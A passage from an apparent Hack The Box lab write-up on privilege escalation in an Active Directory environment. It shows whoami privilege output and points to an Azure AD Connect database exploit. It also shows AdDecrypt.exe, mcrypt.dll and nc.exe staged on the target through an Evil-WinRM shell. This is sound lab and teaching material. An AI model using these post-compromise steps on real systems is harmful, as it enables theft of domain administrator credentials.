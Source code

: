 ~~~
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
~~~
Interesting to notice that mhope is member of the **"Azure Admins"** group and we found its credentials in the **"azure.xml"** file.

If we google the words “Azure Admins privesc”, we find several links. One of those was released by one of our famous active members [VbScrub](https://www.hackthebox.eu/home/users/profile/158833):    
_Azure AD Connect Database Exploit (Priv Esc)_: [https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)   

This article also reveals this interesting Github repo:   
_Azure AD Connect password extraction_: [https://github.com/fox-it/adconnectdump](https://github.com/fox-it/adconnectdump)   


### 4.2- Post-Compromise Exploitation
Let's try it.     
We download **AdDecrypt.exe** and **mcrypt.dll** on the target. As indicated, these two files must be placed in the directory where we will launch the exploit. Once done, we have:
~~~
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> Dir -Force C:\Users\mhope\Documents\

    Directory: C:\Users\mhope\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hsl         1/3/2020   5:24 AM                My Music
d--hsl         1/3/2020   5:24 AM                My Pictures
d--hsl         1/3/2020   5:24 AM                My Videos
d-----        5/31/2020  11:37 PM                WindowsPowerShell
-a----        5/31/2020  11:13 PM          10866 20200531231329_BloodHound.zip
-a----        5/31/2020  11:56 PM          14848 AdDecrypt.exe
-a-hs-         1/3/2020   5:24 AM            402 desktop.ini
-a----        5/31/2020  11:57 PM         334248 mcrypt.dll
-a----        5/31/2020  11:13 PM          15037 MmU4ODNmNTctYjM2MS00N2U1LWI5NjctNDg2N2E5YmZmZmEx.bin
-a----        5/31/2020  11:22 PM          59392 nc.exe
-a----        5/31/2020  11:37 PM          90794 powerzure.ps1
-a----        5/31/2020  11:13 PM         972875 sharphound.ps1
~~~
Notice that I first tried BloodHound, but unsuccessfully...  
 